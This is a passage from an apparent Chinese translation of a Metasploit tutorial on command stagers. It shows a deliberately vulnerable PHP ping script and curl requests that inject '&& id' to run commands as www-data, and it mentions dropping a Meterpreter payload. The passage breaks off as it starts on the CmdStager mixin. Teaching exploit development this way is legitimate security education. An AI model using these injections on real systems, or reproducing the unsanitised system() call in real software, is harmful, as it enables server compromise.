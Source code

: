 命令阶段提供了一种简单的方法来编写针对典型漏洞 例如[命令执行](https://www.owasp.org/index.php/Command_Injection) 或者 [代码注入](https://www.owasp.org/index.php/Code_Injection).目前有八种不同的命令阶段,每种都使用系统命令来保存你的payload,有时会解码并执行.

# 漏洞测试用例
解释如何使用命令stager的最好方法可能是通过演示.在这里我们有一个PHP的命令注入漏洞，在企业级软件中实际上可能会看到一些愚蠢的东西。这个漏洞使得你可以在系统调用ping中注入额外的系统命令：
```php
<?php
   if ( isset($_GET["ip"]) ) {
      $output = system("ping -c 1 " . $_GET["ip"]);
      die($output);
   }
?>

<html>
<body>
  <form action = "ping.php" method = "GET">
   IP to ping: <input type = "text" name = "ip" /> <input type = "submit" />
  </form>
   </body>
</html>
```
将上面的php脚本(ping.php)放在[Ubuntu + Apache + PHP](https://www.digitalocean.com/community/tutorials/how-to-install-linux-apache-mysql-php-lamp-stack-on-ubuntu-14-04) 系统
在正常的使用情况下，这是脚本的行为  它只是ping你指定的主机，并显示你的输出
你的输出

```
$ curl "http://192.168.1.203/ping.php?ip=127.0.0.1"
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.017 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.017/0.017/0.017/0.000 ms
rtt min/avg/max/mdev = 0.017/0.017/0.017/0.000 ms
```

好的,接下来我们能滥用这一点来执行另一个系统命令(id)
```
$ curl "http://192.168.1.203/ping.php?ip=127.0.0.1+%26%26+id"
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.020 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.020/0.020/0.020/0.000 ms
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
看到 这个 www-data?它是上面我们要求脚本执行的第二个命令的输出.通过这样做,我们也可以做更令人讨厌的事情  比如将一个Meterpreter负载写入目标系统,然后执行它
# The Msf::Exploit::CmdStager Mixin
让我们来讨论如何在上面的脚本通过命令阶段来利用它.有几个步骤你需要做
**1.引入 Msf::Exploit::CmdStager Mixin**
尽管有八种mixin/stagers，但在编写Metasploit漏洞时只需要引入[Msf::Exploit::CmdStager](https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/exploit/cmdstager.rb) 这个mixin基本上是所有八个命令阶段的一个接口：
